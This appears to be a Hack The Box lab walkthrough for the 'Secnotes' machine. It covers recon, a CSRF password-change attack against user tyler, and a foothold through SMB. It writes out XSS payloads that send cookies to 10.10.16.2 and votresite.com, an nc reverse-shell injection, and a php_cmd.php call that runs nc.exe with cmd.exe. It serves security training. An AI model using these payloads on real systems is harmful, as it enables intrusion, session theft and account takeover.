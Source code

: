 # Secnotes Hack The Box Tips

# ${\color{purple}Initial Recon}\ $

``nmap -sC -sV -oA secnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884008-60c410d5-2f11-4ba0-9ca0-4e923373cffc.png)

``nmap -p- -sV -oA fullsecnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884018-91569f20-cedb-46b9-9601-867252fa1fb7.png)

``nmap -p 8808 10.10.10.97 -sC -sV``

![image](https://user-images.githubusercontent.com/123066149/222884064-c39d198f-5031-4133-b41a-ef1cdf261e42.png)

``wfuzz -c -w /opt/seclists/Usernames/Names/names.txt -d"username=FUZZ&password=azeazeazeaze" --hs "No account found with that username." http://10.10.10.97/login.php``

``gobuster dir -u http://10.10.10.97/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,asp,a
spx,txt``

![image](https://user-images.githubusercontent.com/123066149/222884045-90de364f-d65c-40aa-803e-7cef2ac312ef.png)

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/222884398-3d10dbcb-9038-4dc5-88a3-5a2f0386419e.png)

![image](https://user-images.githubusercontent.com/123066149/222884441-4976e0f1-db29-46d6-a53d-79efe6cbf118.png)

![image](https://user-images.githubusercontent.com/123066149/222884462-7bd86f37-7fc8-4a1e-9c5f-f3048c40eb2e.png)

![image](https://user-images.githubusercontent.com/123066149/222884505-b9b91d4c-2550-41d4-8777-40bfc4c59c08.png)

### After registering an account and gaining access to the web application, additional functionality to

### Create notes, change password and a contact form are available. The user "tyler" is referenced.

![image](https://user-images.githubusercontent.com/123066149/222885036-d2586f9f-8521-41c2-8284-60592b21eaa6.png)

![image](https://user-images.githubusercontent.com/123066149/222885060-cdfe8f36-f9ad-4354-b31f-9a3b648ebf32.png)

![image](https://user-images.githubusercontent.com/123066149/222885186-d35f0e8f-99ea-4de2-9793-959ec4bdd345.png)

``azeazeaz<h1>MONKMODE</h1>zeeaze``

``<img src=http://10.10.16.2:800/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.16.2'$IFS'2222')>``

``<script> window.open(‘http://10.10.16.2:800/xss.php?a=’+document.cookie) </script>``

``<script> window.open(‘http://votresite.com/xss.php?a=’+document.cookie) </script>``

``<img src=http://10.10.16.2:800/?cookie='+document.cookie)>``

![ssrf](https://user-images.githubusercontent.com/123066149/222884580-628295fc-cbd2-4641-bada-5f93810077c1.PNG)

``<img src=(http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit)>``

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``

### Weak Password Change Mechanism

### A common issue with password change mechanisms is a failure to validate that the user knows
### the existing password. Password recovery mechanisms also allow users to change their
### password without knowing the existing password, but may require an additional verification step,
### such as sending the reset request to the email address associated with the username. If a
### malicious user gets a victim to click on a malicious password change request, and validation of
### the existing password is not required, then they may be able to take control of the account.

![requet](https://user-images.githubusercontent.com/123066149/222884690-fc91298e-7252-4aa9-a2f3-8fef8ac1cf10.PNG)

``http://10.10.16.2:50/tryfortest.txt``                                     
                                        
![image](https://user-images.githubusercontent.com/123066149/222884761-67e09b9e-ee7f-4044-bb1c-2eb4799a02c3.png)
 
``nc -nvlp 50``

### Cross-Site Request Forgery (CSRF)

### The "Contact Us" form is directed to tyler, and if a malicious password reset request is sent to this
### user, they might click the link. CSRF tokens would defend against this attack, but they haven’t
### been implemented in the web application. In Burp, the "Change Password" request type is
### changed from POST to GET, and the malicious URL is constructed.

![3](https://user-images.githubusercontent.com/123066149/222884822-c8321bea-a8d3-41e0-9197-9e47b8e207d0.PNG)

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``    


 
![4](https://user-images.githubusercontent.com/123066149/222884881-42e06240-3c2a-4363-a374-c092f925050b.PNG)
                                        
![image](https://user-images.githubusercontent.com/123066149/222884939-5aca6d35-a3a1-44d2-be32-765eb2e3c451.png)                                       
                                        
# ${{\color{purple}Exploitation}}\ $
 
``smbclient -U 'tyler' //10.10.10.97/new-site``                                      
                                        
![image](https://user-images.githubusercontent.com/123066149/222890282-4e9f5ae1-159c-47cc-a0e1-7b94954f5a50.png)
                                    
![image](https://user-images.githubusercontent.com/123066149/222890258-a516a07a-8ed6-4541-ad06-7f976eb74288.png)

``http://10.10.10.97:8808/php_cmd.php?cmd=nc.exe%2010.10.16.2%201234%20-e%20cmd.exe``
                    
![image](https://user-images.githubusercontent.com/123066149/222890342-17ee1e4c-bf9b-4796-9ea5-4256f7e1ead0.png)
 
![image](https://user-images.githubusercontent.com/123066149/222890381-e2f09cd0-4d2b-4535-bf1c-8c565d380b14.png)
                   
# ${{\color{purple}Privilege Escalation}}\ $
                    
![image](https://user-images.githubusercontent.com/123066149/222890424-70d67952-7335-4f72-bb1e-c7449659e818.png)
                    
 ![image](https://user-images.githubusercontent.com/123066149/222891298-07eeb349-09d1-495e-b025-1408516d3f6b.png)                   

# ${{\color{purple}Points of Improvement}}\ $


